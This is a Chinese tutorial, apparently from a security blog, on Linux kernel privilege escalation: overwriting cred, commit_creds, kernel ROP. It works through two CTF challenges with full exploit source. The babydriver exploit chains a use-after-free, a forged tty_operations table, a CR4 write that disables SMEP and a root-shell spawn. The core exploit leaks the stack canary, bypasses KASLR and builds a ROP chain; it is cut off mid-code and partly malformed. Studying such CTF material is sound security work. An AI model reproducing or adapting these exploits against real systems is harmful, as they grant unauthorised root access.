# 内核提权案例分析一-先知社区

> **来源**: https://xz.aliyun.com/news/17508  
> **文章ID**: 17508

---

## 修改cred结构体

1. 内核会通过进程的 `task_struct` 结构体中的 cred 指针来索引 cred 结构体，然后根据 cred 的内容来判断一个进程拥有的权限，如果 cred 结构体成员中的 **uid-fsgid 都为 0**，那一般就会认为进程具有 root 权限。

```
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
    kuid_t      suid;       /* saved UID of the task */
    kgid_t      sgid;       /* saved GID of the task */
    kuid_t      euid;       /* effective UID of the task */
    kgid_t      egid;       /* effective GID of the task */
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
  ...
}
```

* 直接修改 cred 结构体的内容
* 修改 task\_struct 结构体中的 **cred 指针**指向一个满足要求的 cred

1. 进程的 `task_struct` 结构体中会存放指向 cred 的指针，因此我们可以：

利用 `task_struct` 结构体中的comm字段来定位，comm 用来标记可执行文件的名字，且 comm 其实在 cred 的正下方：

```
    /* Process credentials: */

    /* Tracer's credentials at attach: */
    const struct cred __rcu		*ptracer_cred;

    /* Objective and real subjective task credentials (COW): */
    const struct cred __rcu		*real_cred;

    /* Effective (overridable) subjective task credentials (COW): */
    const struct cred __rcu		*cred;

#ifdef CONFIG_KEYS
    /* Cached requested key. */
    struct key			*cached_requested_key;
#endif

    /*
     * executable name, excluding path. 可执行文件的名字 不包括路径
     *
     * - normally initialized setup_new_exec()
     * - access it with [gs]et_task_comm()
     * - lock it with task_lock()
     */
    char				comm[TASK_COMM_LEN];
```

然而，在进程名字并不特殊的情况下，内核中可能会有多个同样的字符串，这会影响搜索的正确性与效率。因此，我们可以使用 prctl 设置进程的 comm 为一个特殊的字符串，然后再开始定位 comm。

* 定位当前进程 `task_struct` 结构体的地址
* 根据 cred 指针相对于 task\_struct 结构体的偏移计算得出 `cred` 指针存储的地址
* 获取 `cred` 具体的地址（或者直接修改这个指针）在具体修改时，我们可以使用如下的两种方式

1. 修改 cred 指针为内核镜像中已有的 init\_cred 的地址。这种方法适合于我们能够直接修改 cred 指针以及**知道 init\_cred 地址**的情况。
2. **伪造一个 cred**，然后修改 cred 指针指向该地址即可。这种方式比较麻烦，一般并不使用。

1. 修改cred结构体，（已过时）**UAF** 使用同样堆块：如果我们在进程初始化时能**控制 cred 结构体的位置**，并且我们可以在**初始化后修改该部分的内容**，那么我们就可以很容易地达到提权的目的。这里给出一个典型的例子

但是，此种方法在较新版本内核中已不再可行，我们已**无法直接分配到 cred\_jar 中的 object**，这是因为 cred\_jar 在创建时设置了 `SLAB_ACCOUNT` 标记（从**v4.5**开始），在 `CONFIG_MEMCG_KMEM=y` 时（默认开启）**cred\_jar 不会再与相同大小的 kmalloc-192 进行合并**

```
/*
 * initialise the credentials stuff
 */
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
            SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
}
```

1. 申请一块与 cred 结构体大小一样的堆块
2. 释放该堆块
3. fork 出新进程，恰好使用**刚刚释放的堆块**
4. 此时，修改 cred 结构体特定内存，从而提权

## commit\_creds函数

### commit\_creds(&init\_cred)

1. `commit_creds()` 函数被用以将一个**新的 cred 设为当前进程 task\_struct 的 real\_cred 与 cred 字段**，因此若是我们能够劫持**内核执行流**调用该函数并传入一个具有 root 权限的 cred，则能直接完成对当前进程的提权工作：

```
/**
 * commit_creds - Install new credentials upon the current task
 * @new: The credentials to be assigned
 *
 * Install a new set of credentials to the current task, using RCU to replace
 * the old set.  Both the objective and the subjective credentials pointers are
 * updated.  This function may not be called if the subjective credentials are
 * in an overridden state.
 *
 * This function eats the caller's reference to the new credentials.
 *
 * Always returns 0 thus allowing this function to be tail-called at the end
 * of, say, sys_setgid().
 */
int commit_creds(struct cred *new)
{
    struct task_struct *task = current;
    const struct cred *old = task->real_cred;
    // ......
    rcu_assign_pointer(task->real_cred, new);
    rcu_assign_pointer(task->cred, new);
}
```

在内核初始化过程当中会以 root 权限启动 `init` 进程，其 cred 结构体为**静态定义**的 `init_cred`，由此不难想到的是我们可以通过 **commit\_creds(&init\_cred)** 来完成提权的工作:

```
/*
 * The initial credentials for the initial task
 */
struct cred init_cred = {
    .usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
    .subscribers		= ATOMIC_INIT(2),
    .magic			= CRED_MAGIC,
#endif
    .uid			= GLOBAL_ROOT_UID,
    .gid			= GLOBAL_ROOT_GID,
    .suid			= GLOBAL_ROOT_UID,
    .sgid			= GLOBAL_ROOT_GID,
    .euid			= GLOBAL_ROOT_UID,
    .egid			= GLOBAL_ROOT_GID,
    .fsuid			= GLOBAL_ROOT_UID,
    .fsgid			= GLOBAL_ROOT_GID,
    .securebits		= SECUREBITS_DEFAULT,
    .cap_inheritable	= CAP_EMPTY_SET,
    .cap_permitted		= CAP_FULL_SET,
    .cap_effective		= CAP_FULL_SET,
    .cap_bset		= CAP_FULL_SET,
    .user			= INIT_USER,
    .user_ns		= &init_user_ns,
    .group_info		= &init_groups,
};
```

### commit\_creds(prepare\_kernel\_cred())

1. 在内核当中提供了 `prepare_kernel_cred()` 函数用以**拷贝指定进程的 cred 结构体**，当我们传入的参数为 NULL 时，该函数会拷贝 `init_cred` 并返回一个有着 root 权限的 cred：

```
/**
 * prepare_kernel_cred - Prepare a set of credentials for a kernel service
 * @daemon: A userspace daemon to be used as a reference
 *
 * Prepare a set of credentials for a kernel service.  This can then be used to
 * override a task's own credentials so that work can be done on behalf of that
 * task that requires a different subjective context.
 *
 * @daemon is used to provide a base for the security record, but can be NULL.
 * If @daemon is supplied, then the security data will be derived from that;
 * otherwise they'll be set to 0 and no groups, full capabilities and no keys.
 *
 * The caller may change these controls afterwards if desired.
 *
 * Returns the new credentials or NULL if out of memory.
 *
 * Does not take, and does not return holding current->cred_replace_mutex.
 */
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
    const struct cred *old;
    struct cred *new;

    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
    if (!new)
        return NULL;

    kdebug("prepare_kernel_cred() alloc %p", new);

    if (daemon)
        old = get_task_cred(daemon);
    else
        old = get_cred(&init_cred);		// 初始化进程的cred

    validate_creds(old);

    *new = *old;
    // ......

    put_cred(old);
    validate_creds(new);
    return new;
    // ......
}
```

然后在内核空间中调用 `commit_creds(prepare_kernel_cred(NULL))`，则也能直接完成提权的工作：

> [!NOTE]
>
> 不过自从内核版本 v6.2 起，`prepare_kernel_cred(NULL)` 将**不再拷贝 init\_cred，而是将其视为一个运行时错误并返回 NULL**，这使得这种提权方法无法再应用于 v6.2 及更高版本的内核：

```
#define WARN_ON_ONCE(condition) ({                              \
 int __ret_warn_on = !!(condition);                           \
 if (unlikely(__ret_warn_on))                                 \
     assert(0);                                               \
 unlikely(__ret_warn_on);                                     \
})

struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
    const struct cred *old;
    struct cred *new;

    if (WARN_ON_ONCE(!daemon))	// 检查是否为空
        return NULL;

    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
    if (!new)
        return NULL;

    kdebug("prepare_kernel_cred() alloc %p", new);

    old = get_task_cred(daemon);
    validate_creds(old);

    *new = *old;
    new->non_rcu = 0;
    // ......
}
```

## Kernel ROP

1. 内核态的 ROP 与用户态的 ROP 一般无二，只不过利用的 gadget 变成了内核中的 gadget，所需要构造执行的 ropchain 由 `system("/bin/sh")` 变为了 **commit\_creds(&init\_cred) 或 commit\_creds(prepare\_kernel\_cred(NULL))**，当我们成功地在内核中执行这样的代码后，当前线程的 cred 结构体便变为 init 进程的 cred 的拷贝，我们也就获得了 root 权限，此时**在用户态起一个 shell 便能获得 root shell**。
2. **状态保存**：通常情况下，我们的 **exploit 需要进入到内核当中完成提权**，而我们最终仍然需要**着陆回用户态**以获得一个 root 权限的 shell，因此在我们的 exploit 进入内核态之前我们需要**手动模拟用户态进入内核态的准备工作**——**保存各寄存器的值到内核栈上**，以便于后续着陆回用户态。通常情况下使用如下函数保存各寄存器值到我们自己定义的变量中，以便于构造 rop 链：通用的 kernel pwn 板子。方便起见，使用了内联汇编，编译时需要指定参数：**-masm=intel**。

```
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"		// 保存标志寄存器
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```

1. **返回用户态** ：由内核态返回用户态只需要：

* `swapgs` 指令恢复用户态 GS 寄存器
* `sysretq` 或者 `iretq` 恢复到用户空间（注意：这两者的操作不相同）


## 例题：CISCN2017\_babydriver

1. 分析提供的启动脚本，和内核模块：

```
#!/bin/bash

qemu-system-x86_64 \
    -initrd rootfs.cpio \
    -kernel bzImage \
    -append 'console=ttyS0 root=/dev/ram oops=panic panic=1 ' \		# 没有启动 kaslr
    -monitor /dev/null \
    -m 64M \
    --nographic  \
    -smp cores=1,threads=1 \
    -cpu kvm64,+smep \	# 开启了smep保护 无法在内核下执行用户段的代码
    
```

babydriver\_init 内核模块初始化函数注册了一个字符设备驱动：**/dev/babydev** 后续用户态通过操作设备节点 `/dev/babydev` 触发内核函数：看一下fops中定义了哪些操作函数：file\_operations结构体 ： file\_operations 结构体是 Linux 内核中用于定义**字符设备**或**文件操作**的核心数据结构。它充当用户态系统调用（如 `open`、`read`、`write`、`ioctl`、`close` 等）与**内核驱动实现之间的接口**。**1. 核心作用**

```
struct file_operations {
    struct module *owner;
    loff_t (*llseek) (struct file *, loff_t, int);
    ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
    ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
    ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
    ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
    int (*iopoll)(struct kiocb *kiocb, struct io_comp_batch *, unsigned int flags);
    int (*iterate) (struct file *, struct dir_context *);
    int (*iterate_shared) (struct file *, struct dir_context *);
    __poll_t (*poll) (struct file *, struct poll_table_struct *);
    long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
    long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
    int (*mmap) (struct file *, struct vm_area_struct *);
    unsigned long mmap_supported_flags;
    int (*open) (struct inode *, struct file *);
    int (*flush) (struct file *, fl_owner_t id);
    int (*release) (struct inode *, struct file *);
    // ......
} __randomize_layout;
```

典型的驱动初始化示例：

```
#include <linux/fs.h>

// 定义各操作函数
static int mydevice_open(struct inode *inode, struct file *filp) { /* ... */ }
static ssize_t mydevice_read(struct file *filp, char __user *buf, size_t len, loff_t *off) { /* ... */ }
static ssize_t mydevice_write(struct file *filp, const char __user *buf, size_t len, loff_t *off) { /* ... */ }
static int mydevice_release(struct inode *inode, struct file *filp) { /* ... */ }

// 填充 file_operations 结构体
static const struct file_operations mydevice_fops = {
    .owner          = THIS_MODULE,
    .open           = mydevice_open,
    .read           = mydevice_read,
    .write          = mydevice_write,
    .release        = mydevice_release,
    .unlocked_ioctl = mydevice_ioctl, // 可选
};
```

查看babydriver中的fops结构体，其中babyrelease的偏移为0，所以开始没有显示出来：



加载内核之后看的更清楚，这函数的地址是在加载babydriver.ko内核模块的时候初始化的：



babyread 、babywrite 、babyioctl 、babyopen、babyrelease这5个函数。另外babyrelease函数在关闭打开的 `/dev/babydev` 时回自动调用：

```
int fd = open("/dev/babydev", O_RDWR);
babyread(fd, buf, len);  // 或者 read(fd, buf, len); 触发 fops.read
babywrite(fd, buf, len); // 或者 write(fd, buf, len); 触发 fops.write
ioctl(fd,command，tmp);	// 不能使用 babyioctl(fd,command，tmp);
close(fd);		// 不能使用 babyrelease(fd)
```

这里babyread 和 babywrite 编译后最终还是调用到syscall\_read、syscall\_write系统调用。最后触发fops中的回调函数来调用内核的babywrite、babyread函数。ioctl和close同理，只是需要对打开的"/dev/babydev"设备操作即可：



漏洞点 ：babyrelease释放了全局变量指向的空间，但是没有清0，如果打开两个"/dev/babydev"设备再关闭掉一个就会造成uaf漏洞。close(fd)会调用到：



* **桥梁功能**：将用户对设备文件的操作（如 `/dev/mydevice`）映射到内核模块中具体的函数实现。
* **动态绑定**：驱动开发者通过**填充该结构体的成员函数指针**，自定义设备的行为（例如：读取传感器数据、控制硬件等）。

1. 利用思路：可以用 uaf 劫持内核的控制流，执行内核gadget来修改 smep 属性，然后用 ret2usr 提权 ==> 系统根据 cr4 寄存器的第 20 位判断是否开启 SMEP 保护，通常可以向 CR4 寄存器中写入 0x6f0 来关闭 SMEP。把第21位覆盖为0即可
2. 如何利用uaf来劫持程序的控制流？该方法利用的是两个结构体，为`tty_struct` 、tty\_operations：

```
struct tty_struct {
    int	magic;
    struct kref kref;
    struct device *dev;
    struct tty_driver *driver;
    const struct tty_operations *ops;
    int index;
    //......
}

// 函数指针结构体
struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver, struct inode *inode, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty, const unsigned char *buf, int count);	// 第8个位置
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int  (*write_room)(struct tty_struct *tty);
    int  (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);
    // ......
}
```

其中有着许多的**函数指针**，所以说对于我们构造rop来说就非常有用。创建结构体：当`open("/dev/ptmx", O_RDWR)`时会创建一个tty\_struct结构体。`struct tty_struct`结构体大小为`0x2e0`，**打开tty设备会创建该结构体**，我们可以创建`ptmx`设备实现`struct tty_struct`结构体的创建。ptmx设备是tty设备的一种，当使用open函数打开时，通过系统调用进入内核，创建新的文件结构体，最终创建`struct tty_struct`结构体。将该结构体中的`ops`指针指向伪造的`const struct tty_operations`结构体，实现在对该设备进行操作时调用相应的函数指针时，实现程序流的控制。对设备进行`write`操作，修改`const struct tty_operations`结构体的`write`函数指针实现控制流的劫持。

```
// gcc rop.c -static -masm=intel -o rop
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <inttypes.h>

// function address
typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

_prepare_kernel_cred prepare_kernel_cred = 0xffffffff810a1810; // T prepare_kernel_cred
_commit_creds commit_creds = 0xffffffff810a1420; // T commit_creds

//gadget address
#define mov_cr4_rdi_p_ret  0xffffffff81004d80 //: mov cr4, rdi; pop rbp; ret;
#define prdi_ret  0xffffffff810d238d //: pop rdi; ret;
#define swapgs_p_ret  0xffffffff81063694 //: swapgs; pop rbp; ret;
#define iretq_ret  0xffffffff814e35ef //: iretq; ret;
#define ret 0xffffffff8100006f  //: ret;
#define mov_rsp_rax_ret 0xFFFFFFFF8181BFC5 //mov rsp,rax ; dec ebx ; ret
#define pop_rdx_rcx_ret 0xffffffff8100700b //pop rdx; pop rcx; ret;
#define push_rax_ret 0xffffffff81020f11 // push   rax; ret
#define pop_rsp_ret 0xffffffff81171045 // pop rsp; ret

void die(const char* msg)
{
    perror(msg);
    exit(-1);           
}


size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void babyread(int fd, void* buffer, uint32_t len)
{

    read(fd, buffer, len);

    return;
}

void babywrite(int fd, void* buffer, uint32_t len)
{
    write(fd, buffer, len);

    return;
}

void privilege_escalate()
{
    commit_creds(prepare_kernel_cred(0));	 // 使用内核函数进行提权
}

void root_shell()
{
    if(!getuid()) {
        system("/bin/sh");
    }
    else {
        die("get root shell failed");
    }
    exit(0);
}


int main()
{
    uint64_t fake_tty_struct[4]={0};
    // 先打开两个设备 fd1、fd2会共享一个babydev_struct.device_buf
    int fd1 = open("/dev/babydev", 2);	// 0xffff880003d6e340
    int fd2 = open("/dev/babydev", 2);  // 0xffff880003d6e300

    // 修改 babydev_struct.device_buf_len 的大小 从 0x40 变为 sizeof(struct tty_struct)
    ioctl(fd1, 0x10001, 0x2e0);
    // 释放掉fd1 即 babydev_struct 便于后续打开tty设备时申请到相同的空间
    close(fd1);
    
    // open /dev/ptmx, it will alloc struct  tty_struct, so the device_buf of fd2 and tty_struct share the same memory.	
    // 打开一个tty设备“/dev/ptmx”，会分配一个 tty_struct结构体 ，此时fd2、fd3共享一个 babydev_struct.device_buf
    int fd3 = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    save_status();
    
   uint64_t fake_tty_operations[30] = {
        prdi_ret,
        0x6f0,
        mov_cr4_rdi_p_ret,
        0,
        ret,
        ret,
        prdi_ret,
        mov_rsp_rax_ret,
        (uint64_t)privilege_escalate,	// 执行用户空间的指令来，但是此时任然处于内核态，没有返回用户态
        swapgs_p_ret,
        0,
        iretq_ret,
        (uint64_t)root_shell,
        user_cs,
        user_rflags,
        user_sp,
        user_ss
    };
    
    // =========== 使用uaf 伪造tty_struct、tty_operations结构体 ===========
    babyread(fd2, fake_tty_struct, 3*8);	// 利用fd2读取 将分配的 tty_struct 的前3个字节 读取到fake_tty_struct中
    fake_tty_struct[3] = (uint64_t)fake_tty_operations;	//	将tty_struct的第4个字段覆盖为伪造的fake_tty_operations结构体地址
    babywrite(fd2, fake_tty_struct, 4*8);	// 覆盖原来的 tty_struct结构体（值覆盖前4个字节，其他的不变）

    // 向 "/dev/ptmx" 中写入数据，触发rop
    write(fd3, "evil", 4);

    return 0;
}
```

1. 调试分析如何劫持控制流：先加载完符号打上断点打开fd1、fd2两个"/dev/babydev"文件，调用到内核模块babydriver.ko中的babyopen函数的调用链如下：

```
syscall ==> entry_SYSCALL_64_fastpath ==> sys_openat ==> do_sys_open ==> do_filp_open ==> path_openat ==> vfs_open ==> do_dentry_open ==> chrdev_open ==> babyopen
```

**1.** `chrdev_open` **的作用**`chrdev_open` 在内核源码中 `fs/char_dev.c` 定义，属于字符设备框架的一部分。它的核心作用如下：

1. **关联设备号与驱动**：根据设备号找到对应的字符设备驱动。
2. **调用驱动的** `.open` **函数**：若驱动在 `file_operations` 中注册了 `.open` 回调，则调用它。
3. **管理模块引用计数**：防止驱动模块在设备被使用时被卸载。



ioctl close完毕之后的babydev\_struct全局变量：



最后打开文件fd3，open("/dev/ptmx",O\_RDWR|O\_NOCTTY)，此时，内核不会调用babydriver中的babyopen（因为此时操作的不是"/dev/babydev"设备），而是ptmx\_open这个内核函数（这里打开不同的设备，会调用到不同的内核驱动函数）



步入，这里调用到**tty\_init\_dev函数** 该函数的返回值是struct tty\_struct \* 类型。明显就是来分配 tty\_struct结构体的，此时fd2的babydev\_struct.device\_buf 与 fd3的tty\_struct结构体成功重合（uaf实现）：



查看此时的 tty\_struct 结构体：

成功让babydev\_struct.device\_buf指向 tty\_struct结构体



后续 babyread(fd2, fake\_tty\_struct, 24)；babywrite(fd2, fake\_tty\_struct, 4\*8)；就可以直接对 tty\_struct结构体进行操作：

调用 babyread(fd2, fake\_tty\_struct, 24)：



读出后的栈：



再向第4个位置添加 伪造在用户态栈上的tty\_operations结构体地址：



最后利用 babywrite(fd2, fake\_tty\_struct, 4\*8)，将伪造的前4个字节 fake\_tty\_struct结构体写入到 tty\_struct结构体中，从而覆盖掉原来的 ops指针：



最后就是调用到 tty\_operations结构体中的 **write函数指针** ，调用write(fd3, "evil", 4)：

在n\_tty\_write函数中调用到 其中的write函数指针，此时的rdi寄存器的值为 前面申请的tty\_struct结构体的首地址 ，



1. 上面的方法可以控制执行流，但是只能执行write指针上的一条指令，即使有ret来衔接也无法做到ROP，因为我们无法控制内核栈上的值。所以此时最好的方法就是进行**栈迁移**，目前唯一**可以控制大量写入数据**的地址就是**rax指向的tty\_operations结构体** ，所以可以将栈指针迁移到用户栈上伪造的tty\_operations结构体，即利用rax寄存器向rsp传值，必须是一条连续的指令完成栈迁移，否则后续无法衔接。可利用的gadget：mov rsp, rax;dec ebx; ret 。这里是 jmp 0xffffffff8181bf7e 衔接到的ret指令，用ROP\_gadget和ropper不一定能搜出来结构体伪造如下，：

```
   uint64_t fake_tty_operations[30] = {
        prdi_ret,
        0x6f0,
        mov_cr4_rdi_p_ret,
        0,
        ret,
        ret,
        prdi_ret,
        mov_rsp_rax_ret,
        (uint64_t)privilege_escalate,
        swapgs_p_ret,
        0,
        iretq_ret,
        (uint64_t)root_shell,
        user_cs,
        user_rflags,
        user_sp,
        user_ss
    };
```

1. exp调试分析如下：直接到最后控制执行流的位置修改cr4寄存器，关闭semp保护返回到用户空间执行指令（ret2usr），但是此时任然处于内核态（此时不能调用syscall指令）：commit\_creds(prepare\_kernel\_cred())提权：看一眼我们静态编译的exp脚本的privilege\_escalate函数的反汇编：填权完成后，这个进程就是root权限，此时再来起一个shell，回到用户空间执行system("/bin/sh")：swapgs切换gs寄存器，iretq将栈上存放的值返还给个寄存器成功返回到用户态，衔接到root\_shell，最后执行system("/bin/sh")：最后成功提权拿到flag：
2. 为什么要返回到用户态再执行system("/bin/sh")函数，不能直接提权结束后衔接到用户段上的root\_shell函数吗？尝试提权后直接调用用户态的root\_shell函数：此时再getuid函数中，会再次调用syscall，会不会 "再次"进入内核？si步入，进入到entry\_SYSCALL\_64函数，执行swapgs指令，交换gs寄存器的值：发现，交换之前是内核态的gs寄存器，但是交换之后编程用户态的值了（负负得正），后续执行指令就会报错：在提权结束后，先swapgs，再直接衔接到用户态的root\_shell函数，可以成功起一个shell。但是最好还是先回到用户态再执行root\_shell。如果不进入内核，直接执行privilege\_escalate函数？肯定不行，因为privilege\_escalate调用的是内核的函数commit\_creds、prepare\_kernel\_cred，用户态不可直接访问内核态的数据、执行内核态的代码。用户态只能通过syscall进入内核，再执行内核的函数(如果手动编译一个syscall来执行，虽然能进入内核态，但是到了内核后执行流就不受我们控制了（因为syscall之后会进入entry\_SYSCALL\_64处理，然后切换内核GS、内核栈等）。所以需要**劫持内核的执行流**，然后在内核态的情况下执行用户段上的函数 privilege\_escalate（ret2usr），最后执行内核的函数commit\_creds、prepare\_kernel\_cred。

## 例题：qwb\_2018\_core

1. 查看启动脚本，将core.cpio解包，其中gen\_cpio.sh是一个快速打包脚本：

```
mkdir tmp
cd tmp
mv ../core.cpio core.cpio.gz
gunzip ./core.cpio.gz
cpio -idm < ./core.cpio

# !/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
cat /proc/kallsyms > /tmp/kallsyms		# 将 /proc/kallsyms 放到了 /tmp/kallsyms
echo 1 > /proc/sys/kernel/kptr_restrict		# 仅root用户能查看 /proc/kallsyms 中的内核符号
echo 1 > /proc/sys/kernel/dmesg_restrict	# 仅root用户能查看 内核日志
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 
insmod /core.ko		# 加载模块

setsid /bin/cttyhack setuidgid 1000 /bin/sh		# 方便调试这里可以改位0 ==> root
echo 'sh end!
'
umount /proc
umount /sys

poweroff -d 0  -f

# 启动脚本
qemu-system-x86_64 \
-m 64M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \	# 开启了kaslr
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

* `kptr_restrict` **参数**：  
  该参数控制是否允许普通用户通过 `/proc/kallsyms` 或 `/proc/modules` 等接口查看内核符号（函数/变量）的内存地址。修改 `/proc/sys/kernel/kptr_restrict` 需要 **root 权限**。

* **参数值的含义**：

* **0**：所有用户均可查看内核符号的地址（默认值，安全性最低）。
* **1**：普通用户无法查看内核符号的地址，但 **root 用户**仍可查看。
* **2**：无论用户权限如何，均禁止查看内核符号地址（安全性最高）。

* `dmesg_restrict` **参数**：  
  该参数控制普通用户是否能通过 `dmesg` 命令或 `/dev/kmsg` 接口读取**内核日志**（如硬件事件、驱动错误、内核启动信息等）。

* **参数值的含义**：

* **0**：**所有用户**均可查看完整内核日志（默认值，安全性较低）。
* **1**：仅 **root 用户** 可以查看内核日志，普通用户无权限。

​

换用 /tmp/kallsyms 来获得 commit\_creds 和prepare\_kernel\_cred两个函数的地址：（因为开启了kaslr，每次内核启动时这两个函数的地址都是不确定的，所以需要在exp中进行读取）



提供的内核模块开启了 Canary保护：



1. 分析提供的 core.ko 内核模块：init\_module在初始化的时候创建一个新的条目 **/proc/core** :core\_fops结构体定义这三个回调函数：core\_write ， core\_ioctl ， core\_releaseioctl函数定义了三个行为：0x6677889C操作 和 0x6677889B操作 搭配可以泄漏canarycore\_write 搭配 0x6677889A中的core\_copy\_func 可以照成 **内核栈溢出**，向内核栈上写入ROP：
2. 如何过nokaslr：先从 /tmp/kallsyms 中读取 commit\_cred 函数，当前加载的绝对地址commit\_cred\_addr，再减去当前vmlinux加载的基地址，即可得出**commit\_cred函数的偏移** -->commit\_cred\_offset(一个**固定值**，内核再次启动都不会变化)。在未开启kaslr是vmlinux加载的地址默认是 raw\_vmlinux\_base = 0xffffffff81000000 :所以 内核加载的偏移 **kernel\_offset = commit\_cred\_addr - commit\_cred\_offset - raw\_vmlinux\_base** (commit\_cred\_addr - commit\_cred\_offset 是内核当前加载的基地址，或者说 commit\_cred\_offset + raw\_vmlinux\_base 是未开启kaslr时commit\_creds函数的地址):后续利用的gadget的地址：直接用ROPgadget、ropper查到的地址 加上 前面算出的 **kernel\_offset** 即可得出此时内核加载时gadget的绝对地址。

1. 泄漏内核栈的canary：先将off 改大，看内核栈的布局v5是读取的起始地址，canary就挨在其结束的位置，所以要将off设置为v5的大小，让其指向数组结尾处，第一个读出的就是canary：随后通过core\_read读到用户空间上，第一个读出的就是canary：
2. 内核栈溢出：先利用core\_write将构造的ROP写到name上，再用core\_ioctl中的0x6677889A操作进行栈溢出，core\_copy\_func中的if条件用负数绕过在core\_copy\_func函数中的栈布局，第9个位置是canary，第11个位置是返回地址。所以直接用canary覆盖前10个位置即可：最后，提权结束返回用户态起shell：
3. exp如下：

```
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define CORE_READ 0x6677889B
#define CORE_OFF 0x6677889C
#define CORE_COPY 0x6677889A

size_t vmlinux_base,commit_creds_addr,prepare_kernel_cred_addr;
size_t user_cs,user_ss,user_sp,user_rflags;
size_t raw_vmlinux_base = 0xffffffff81000000;

void save_status()
{
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags"
    );
}

void GetShell() {
    if (!getuid()) {
        system("/bin/sh");
    }
    else {
        puts("[-] CAN NOT GETSHELL.");
        exit(1);
    }
}

// 查找内核符号 commit_creds 和 prepare_kernel_cred 取出其函数地址
int find_symbols()
{
    char *ptr;
    char buf[0x40];
    FILE* fd = fopen("/tmp/kallsyms","r");
    if(!fd)
    {
        printf("[-] Open /tmp/kallsyms ERROR.
");
        return 0;
    }
    while(fgets(buf,sizeof(buf),fd))
    {
        if(commit_creds_addr && prepare_kernel_cred_addr)
            return 1;	// 全部找到就退出
        if (!commit_creds_addr && strstr(buf, "commit_creds"))
        {
            commit_creds_addr = strtoull(buf, &ptr, 16);
            printf("[+] Find: commit_creds: 0x%llx
",commit_creds_addr);
        }
        if (!prepare_kernel_cred_addr && strstr(buf, "prepare_kernel_cred")) 
        {
            prepare_kernel_cred_addr = strtoull(buf, &ptr, 16);
            printf("[+] Find: prepare_kernel_cred: 0x%llx
",prepare_kernel_cred_addr);
        }
    }
    printf("[-] Find symbols error
");
    return 0;
}

int main()
{
    save_status();		// 保存寄存器状态 后续返回用户态
    int f=find_symbols();
    if(!f)
    {
        printf("[-]Find Symbols ERROR.
");
        exit(0);
    }
    commit_creds_nokaslr = raw_vmlinux_base + 0x9c8e0		// 在未开启kaslr时commit_creds函数的地址
    size_t kernel_kaslr_offset = commit_creds_addr - commit_creds_nokaslr;	// 开启kaslr造成的偏移
    size_t pop_rdi = 0xffffffff81000b2f + kernel_kaslr_offset;	//pop rdi; ret;
    size_t pop_rdx = 0xffffffff810a0f49 + kernel_kaslr_offset;	//pop rdx; ret;
    size_t mov_rdi_rax_jmprdx = 0xffffffff8106a6d2 + kernel_kaslr_offset;	//mov rdi, rax; jmp rdx;
    size_t swapgs = 0xffffffff81a012da + kernel_kaslr_offset;	//swapgs; popfq; ret;
    size_t iretq = 0xffffffff81050ac2 + kernel_kaslr_offset;     //iretq; ret;
    
    size_t rop[0x100];
    char user_buf[0x40] = {0};
    int i;

